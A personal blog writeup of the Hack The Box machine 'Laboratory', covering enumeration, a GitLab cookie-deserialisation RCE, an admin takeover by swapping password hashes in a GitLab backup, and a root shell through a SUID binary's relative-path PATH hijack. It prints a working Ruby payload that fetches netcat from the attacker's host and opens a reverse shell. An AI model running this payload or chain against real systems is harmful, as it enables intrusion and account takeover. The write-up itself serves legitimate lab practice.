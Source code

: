 ```yaml
---
title: "HTB Laboratory"
date: 2020-11-26
layout: single
excerpt: "Writeup for an old box I did long ago called Laboratory"
classes: wide
header:
  teaser: "/assets/images/HTB_Laboratory/Laboratory.png"
  teaser_home_page: true
  #icon: "/assets/images/HTB_Laboratory"
categories:
  - HTB
tags:
  - Git-Lab
  - Apache
  - Brute Force
  - SUID
---
```



## Purpose: HTB Laboratory

I'm taking notes from an old HTB I did some time ago and going to try to do a writeup. Thus, expect some incompletness!

Laboratory is an easy box that leverages a gitlab RCE vulnerablity to pivot into a docker container. From there rewriting the SQL datebase hashes allows you login to gitlab as an admin user, and you can grab an ssh rsa key. With this key you can ssh into the docker host to grab user and then exploit a pathing mistake to trick a suid binary to give you a root shell.

## I begin by adding "laboratory.htb" to my hosts file
- This helps fix virtual hosting issues with web servers that sometimes messes things up if using a direct ip address 

## Next, I do a NMAP:

`nmap -sV -sC -oN Laboratory 10.129.40.119`

```bash

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-16 11:06 UTC
Nmap scan report for 10.129.40.119
Host is up (0.15s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn:
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.91 seconds

```

## Next I Enmurate WebPage at Port 443
- Found an Apache page
- After poking around, it seems like there are many places to login, but brute forcing seems to be out of the question since this box appears to be rate limiting requests (trust me on this, it took hours to figure this out)
- Found a gitlab prompt at `git.laboratory.htb` that appears to allow me to create a user account. I have to use **laboratory.htb** as my email provider however.
- This is nice, but as a basic user I don't seem to be able to do much.

## Enumerating OSINT and exploiting gitlab vulnerablities
- After some digging I found this: https://hackerone.com/reports/827052
  - This has two vulns, an LFI and an RCE (RCE is located in comments section, don't miss this like I did!)
- The LFI isn't very helpful since I don't seem to be able to read anything important, however the RCE could give me an shell.
- After some tinkering I found how to get a shell by:
  1. Downloading/Installing Ruby and using this payload generation script: (note, the correct playload I used is also displayed)

  ```ruby
  def genPayload()
        request = ActionDispatch::Request.new(Rails.application.env_config)
        request.env["action_dispatch.cookies_serializer"] = :marshal
        cookies = request.cookie_jar

        erb = ERB.new("<%= `curl --connect-timeout 3 10.10.14.31:443/nc > /tmp/nc; chmod +x /tmp/nc; /tmp/nc 10.10.14.31 3333 -/bin/sh` %>")
        depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
        cookies.signed[:cookie] = depr
        puts cookies[:cookie]
  end

  ```
  2. From above they playload downloads **nc** from my machine. Use python simple http server for this (run this in dir of nc):

  ```python
  python -m http.server 443
  ```
  3. After the script is ran with payload it will generate a cookie that you need to add to a burp web reqest. To run script: (Make sure you are logged on as the user you created for gitlab and use the gitlab-rails console to run) (if you don't do this under your user account, it will not generate the correct cookie!)

  ```bash
  load "/tmp/rails/payload.rb"
  genPayload
  ```
  4. Now paste this cookie in the following burp request after **Cookie: experimentation_subject_id=**: (don't forget to URL ENCODE)

  ```
  GET /users/sign_in HTTP/1.1
  Host: git.laboratory.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: https://git.laboratory.htb/dashboard/snippets
  DNT: 1
  Connection: close
  Cookie: experimentation_subject_id=
  Cache-Control: max-age=0
  Content-Length: 6
  ```

  5. Now verify you have your python web server setup and nc is listening on your machine, then send the reqest away, this should return a reverse shell!

## Container Enumeration/Database overwrite

- Once Inisde the box I immediatly tried to get the user flag, however it was nowhere to be found. 
- The Environment looked limited so I guessed something was up, but at the time was more concertned about root access.
- After running some enum scripts I found that the gitlab database was writeable. Since I created my user account earlier I wanted to see if I could find my user and hash
- After some research I found that I could backup and restore gitlab:

```
gitlab-backup create
# Location of backups:
# /var/opt/gitlab/backups/
gitlab-backup restore
```

- Thus, I created a backup, downloaded the backup to my machine and copied my user hash over the "dexter" account's hash in the database, thus making my password dexter's password.
- After the restoring the backup on Laboratory.htb I found that I was able to login as dexter
- After snooping in dexter's account I found some private git repos, one of which contained a private RSA key:
![](/assets/images/HTB_Laboratory/20220709142023.png)  
![](/assets/images/HTB_Laboratory/20220709142048.png)  


## User and Root

- So I have an rsa key, so logged into box with

```
ssh -i id_rsa dexter@10.10.10.216
```
- Now with login as Dexter I was able to grab the **user.txt**
- Basic enumeration yielded that gitlab was indeed running in an container
- After some enumeration I was able to find an unusual binary called "docker-security", which had the suid set
- If the "strings" command is ran on this binary I was able to see that it calls the "chmod" binary to do something, however chomd is called with a realitive path, thus relying on the path variable. 
- Since the current environment has a path variable that is mutable I changed to the path to
```
PATH="/tmp/:$Path"
```
- And then setup a script called "chmod" in "/tmp":
```
#!/bin/bash
bash
```
- Now running "docker-secuirty" will yeild a root shell, thus grabbing **root.txt**


## Summary Map
NMAP --> Discovered https prots open --> Enmurated to find static site with a git lab site --> Tried logging in, failed --> enmurated some more to find a possible user name dexter --> used static page refs to find what dexter might use as a password --> started brut forcing git lab password --> failed due to rate limiting --> recalibrated --> figured out I could login as a user to gitlab (register) --> Enmurated exploit upon learning gitlab version via authenticated api --> found I could execute artbitualy file reads --> Enmuarated gitlab file sturture by creating mirred instance on my own vm --> downloaded serects.yml after researching its value --> enmuarted furthere exploits --> disocved rce with secrets.yml data --> generated malicouse cookie --> reverese shell --> enmurated system --> eventually discovered backup capability with permissions to execute --> made backup and transfered outside --> examined contents --> researched contents --> discovered hashes can be swapped --> copied over hash over the admin(dexter) with my registered account --> resetored backup --> logged into gitlab as admin(dexter) --> found hidden project contained ssh rsa private key --> enmurated system once more to find how to use rsa key --> found system was a docker container --> used rsa key to ssh into host machine as dexter --> user flag --> enmuarted system --> disovered custom SUID binary --> examined binary function and discovered it used releative paths for calls --> changed local user's path and created "custom" script to run in place of orginal call --> root

